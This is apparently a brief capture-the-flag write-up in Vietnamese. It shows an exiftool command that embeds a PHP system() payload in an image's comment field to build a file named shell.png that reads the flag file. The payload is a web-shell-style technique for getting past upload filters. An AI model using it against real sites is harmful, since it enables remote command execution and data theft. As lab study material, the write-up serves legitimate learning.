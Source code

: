 - Bai nay su dung exiftool de fake anh

`exiftool -Comment="<?php system('cat /flag*'); ?>" image.png -o shell.png"`

![Alt text](image.png)